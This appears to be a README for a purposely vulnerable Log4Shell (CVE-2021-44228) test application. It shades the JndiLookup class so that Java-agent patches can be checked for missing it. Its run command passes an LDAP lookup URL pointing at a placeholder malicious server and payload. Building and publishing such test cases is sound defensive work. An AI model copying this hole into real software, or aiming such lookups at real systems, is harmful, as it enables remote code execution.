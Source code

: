 # Log4Shell sample vulnerable application (CVE-2021-44228)

This application was created to test mitigation techniques based on Java-Agents that patch the `JndiLookup` class, such as
- https://github.com/nccgroup/log4j-jndi-be-gone
- https://github.com/corretto/hotpatch-for-apache-log4j2

This application contains the `JndiLookup` classes under a shaded path, i.e. at
`org/apache/logging/log4j/core/shaded/lookup/JndiLookup.class` (n.b. `/shaded/`)

At the time of writing, both above projects are unable to recognize such instances.

Admittedly, it's a contrived example and only covers an edge case, but better be safe than sorry.

## How to build
`./mvnw clean package`

## How to execute
`java -jar target/vulnerable-shaded-app-0.0.1-SNAPSHOT.jar ldap://<test-malicious-ldap-server>:1389/<payload>`

